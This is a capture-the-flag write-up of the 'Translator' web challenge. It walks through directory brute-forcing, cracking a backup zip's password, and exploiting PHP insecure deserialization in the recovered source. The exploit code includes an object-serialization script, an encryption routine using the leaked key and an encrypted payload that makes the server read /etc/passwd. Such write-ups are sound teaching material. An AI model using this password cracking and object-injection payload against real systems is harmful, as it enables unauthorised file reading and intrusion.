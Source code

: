 The challenge description:

    "title": "Translator"
    "level": 2
    "description": "The only way to patch a vulnerability is by exposing it first so, Will you can Translator ?."
    "points": 600
    
  I went to [the website](http://35.222.121.58/Translator/), made directory brute force scan, Checked the source code.. nothing seems to be important..
  
  I checked the request and response, but still nothing important
  
  I returned to see what the directory brute force found and it got two files that shined with some hope to find something important
  
  ![image 1](https://imgur.com/uDx6SiR.png)

  
  Both directories gave 403 unauthorized response
  
  At least maybe another brute force on them could reveal something.. and yes it did
  
  We found a zip file inside backup directory
  
  ![image 2](https://imgur.com/XBev9nz.png)

  
  Downloaded the file and tried to unzip it but it requires password, peace of cake
  
  Running a small program to brute force the password was enough
  
  ```fcrackzip -v -u -D -p backup.zip rockyou.txt```
  
  ![image 3](https://imgur.com/PtpMSmw.png)
  
  The password: ```kaylaanne```

  
  Unzipped the file and it contained the source code of the index.php page

```
<?php

function encryptString($plaintext, $password) {
//This is s3cr3t
}


function decryptString($ciphertext, $password) {
    $ciphertext = base64_decode($ciphertext);
    if (!hash_equals(hash_hmac('sha256', substr($ciphertext, 48).substr($ciphertext, 0, 16), hash('sha256', $password, true), true), substr($ciphertext, 16, 32))) return null;
    return openssl_decrypt(substr($ciphertext, 48), "AES-256-CBC", hash('sha256', $password, true), OPENSSL_RAW_DATA, substr($ciphertext, 0, 16));
}

//$EncString = encryptString("aaaaaaaaaaaaaaaaaaaaa", "vmUeu7D9bzE5JmNE"); output:SElIT1dBUkVZT1VCUk8hIdk8ZHn/lvhO9Vammhqvg8N6OlV2KOX3uRiQ7gsn8ZXuvE4UUPOK9Q4ZhufvCiyXhAIdJxY+22Rt5AgkVy0CDcI=

class ReadListLogs
{
        private $FileName = "/var/log/httpd/access_log";
        private $RowNumber = 1;

    public function __construct()
    {
      echo "__construct";
      $this->ReadSave($this->FileName, $this->RowNumber);
    }

    public function __wakeup()
    {
      $this->ReadSave($this->FileName, $this->RowNumber);
    }

    function ReadSave($FileName,$RowNumber)
        {
        $this->FileName = $FileName;
        $this->RowNumber = $RowNumber;
        $array = explode("\n", file_get_contents($FileName));
        $reversed = array_reverse($array);
        $File_Contnet = $reversed[$RowNumber];
              $stringxx = bin2hex(random_bytes(18));
        file_put_contents(__DIR__.'/logs/'.$stringxx.".txt", $File_Contnet);
            echo "End $stringxx";
        }
}



$data = json_decode(file_get_contents('php://input'));
$DecryptVal =  strval(decryptString($data->user,"vmUeu7D9bzE5JmNE"));
unserialize($DecryptVal);

?>
```
  Taking a look at the file there's at first
1. Unreaveled encryption function that takes plain text and key
2. Revealed decrypting function that takes cipher text and key
3. A sample of the encrypting
  After them there's a class which contains:
1. Two variables $FileName and $RowNumber
2. __construct and __wakeup php magic methods, these are method that run without calling them when some action happens you can read about them ![here](https://www.php.net/manual/en/language.oop5.magic.php)
3. A function to read files and store the output in file with random name in logs directory
4. Echoes the file name
And the last portion of the code does the following:
1. Gets the data from the request
2. Decode the json formatted data
3. Store the data to variable named $data
4. Decrypting the parameter user in variable data with the decrypting function
5. Storing the decrypted cipher to a variable named $DecryptVal
6. Unserializing $DecryptVal

  It's clear since the code has magic methods and unserializing user data that it'll be php insecure deserialization ( aka php object injection )

  Ok let's take it step by step

  ### 1. serializing
  
  Since the data is unserialized we need to supply serialize 
  
  I made a small php script to serialize the data and make object of the same class with the same variables but changing thier values
```
<?php
class ReadListLogs
{
        public function __construct()
        {
                $this->filename="/etc/passwd";
                $this->RowNumber = 1;
        }
}
$obj = new ReadListLogs();
echo serialize($obj);
echo "\n";
?>
```
  ![image 4](https://imgur.com/TiOTXI1.png)
  
  ```O:12:"O:12:"ReadListLogs":2:{s:8:"FileName";s:11:"/etc/passwd";s:9:"RowNumber";i:1;}```
  
  And we got serialized data..


  ### 2. encrypting
  
  Here was a great problem for me, I thought at first it depended on cryptography, but it seemed at last it's OSINT
  
  I searched for a long time for the algorithm until I finally found it [here](https://stackoverflow.com/questions/3422759/php-aes-encrypt-decrypt/56856924#answer-62175221)
  
  Ok now I have the encryption algorithm

```
function encryptString($plaintext, $password) {
    $iv = openssl_random_pseudo_bytes(16);
    $ciphertext = openssl_encrypt($plaintext, "AES-256-CBC", hash('sha256', $password, true), OPENSSL_RAW_DATA, $iv);
    $hmac = hash_hmac('sha256', $ciphertext . $iv, hash('sha256', $password, true), true);
    return base64_encode($iv.$hmac.$ciphertext);
}
```

  I modified it a bit so I can use it in a local web server
```
<?php

$password="vmUeu7D9bzE5JmNE";
$data=json_decode(file_get_contents('php://input'));
$plaintext=$data->user;

function encryptString($plaintext, $password) {
    $iv = openssl_random_pseudo_bytes(16);
    $ciphertext = openssl_encrypt($plaintext, "AES-256-CBC", hash('sha256', $password, true), OPENSSL_RAW_DATA, $iv);
    $hmac = hash_hmac('sha256', $ciphertext . $iv, hash('sha256', $password, true), true);
    return base64_encode($iv.$hmac.$ciphertext);
}

echo encryptString($plaintext,$password);

?>
```
  ![image 5](https://imgur.com/f2fU0IL.png)

  Also try to decrypt it locally with some reflective data added

  ![image 6](https://imgur.com/tr3ZaEg.png)

  Encrypting done



  ### 3. injecting

  The encrypted serialized payload:

  ```NB8zli9U94QIB9lOosT0vaPVSakMB8vc7QTXEmJ4e9x9g4ah84ImLkFSdW1zHba5EEQvLzTNYXHkQocwb7ejsTTnEOU5maOkPW2fnMz6o2LPQZrnxe3rhh5A8Wh2g6pwqC6Nq7ZODfPPdMmfaTVMVh+iklUFeteJL9VOW27yLik=```

  Injecting it into the challenge
  
  ![image 7](https://imgur.com/6y5ikh0.png)

  We got our lucky number for the file: 31771b107da808662fa1

  ![image 8](https://imgur.com/lhpz84I.png)

  Going to [the file](http://35.222.121.58/Translator/logs/31771b107da808662fa1.txt)

  ![https://imgur.com/beS5w18.png](https://imgur.com/beS5w18.png)

  And we got the flag: ```#ASCWG{php_1$_R3a11y_C0Ol_1$_not_1t_?x?:P_1xcxz}```


  Big credits to my teammate Abanob Medhat who participated with me in solving this challenge
